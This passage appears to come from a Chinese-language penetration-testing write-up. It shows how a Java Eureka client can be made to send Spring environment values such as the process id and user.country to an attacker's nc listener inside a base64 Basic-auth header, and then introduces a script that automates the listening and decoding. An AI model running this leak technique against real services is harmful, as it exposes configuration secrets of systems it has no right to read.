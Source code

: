 
base64 解码得到

```
root@kali:/tmp# echo MzgzNDY6bnVsbA== |base64 -d
38346:null
```
和上面的 pid 信息一样


同样 获取 `user.country`参数,步骤也一样

结果:
```
root@kali:/tmp# nc -lvvp 2555
listening on [any] 2555 ...
connect to [10.20.24.191] from kali [10.20.24.191] 38994
GET /xstream/apps/ HTTP/1.1
Accept: application/json
DiscoveryIdentity-Name: DefaultClient
DiscoveryIdentity-Version: 1.4
DiscoveryIdentity-Id: 10.20.24.191
Accept-Encoding: gzip
Host: 10.20.24.191:2555
Connection: Keep-Alive
User-Agent: Java-EurekaClient/v1.4.11
Authorization: Basic VVM6bnVsbA==

 sent 0, rcvd 310
```
base64 解码得到
```
root@kali:/tmp# echo VVM6bnVsbA== |base64 -d
US:null

```
## 脚本化

输入要查询的参数,输入 nc 监听的端口
![](./send_env.png)

监听端口,获取指定 header 头,自动 base64 解密